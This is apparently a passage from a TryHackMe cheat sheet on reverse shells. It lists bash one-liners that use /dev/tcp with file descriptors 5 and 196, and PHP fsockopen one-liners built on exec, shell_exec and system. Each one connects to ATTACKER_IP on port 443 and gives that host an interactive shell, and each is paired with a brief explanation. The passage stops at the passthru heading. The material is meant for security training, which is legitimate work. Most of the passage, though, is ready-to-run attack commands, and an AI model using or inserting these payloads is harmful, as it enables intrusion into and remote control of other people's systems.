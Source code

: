 
#### Bash Read Line Reverse Shell

```bash
target@tryhackme:~$ exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done 
```
This reverse shell creates a new file descriptor (5 in this case)  and connects to a TCP socket. It will read and execute commands from the socket, sending the output back through the same socket.


#### Bash With File Descriptor 196 Reverse Shell

```bash
target@tryhackme:~$ 0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196 
```
This reverse shell uses a file descriptor (196 in this case) to establish a TCP connection. It allows the shell to read commands from the network and send output back through the same connection.


#### Bash With File Descriptor 5 Reverse Shell

```bash
target@tryhackme:~$ bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
```
Similar to the first example, this command opens a shell (bash -i), but it uses file descriptor 5 for input and output, enabling an interactive session over the TCP connection.


### PHP

#### PHP Reverse Shell Using the exec Function

```bash
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");' 
```
This reverse shell creates a socket connection to the attacker's IP on port 443 and uses the exec function to execute a shell, redirecting standard input and output.


#### PHP Reverse Shell Using the shell_exec Function

```bash
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
```
Similar to the previous command, but uses the shell_exec function.


#### PHP Reverse Shell Using the system Function

```bash
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");' 
```
This reverse shell employs the system function, which executes the command and outputs the result to the browser.


#### PHP Reverse Shell Using the passthru Function
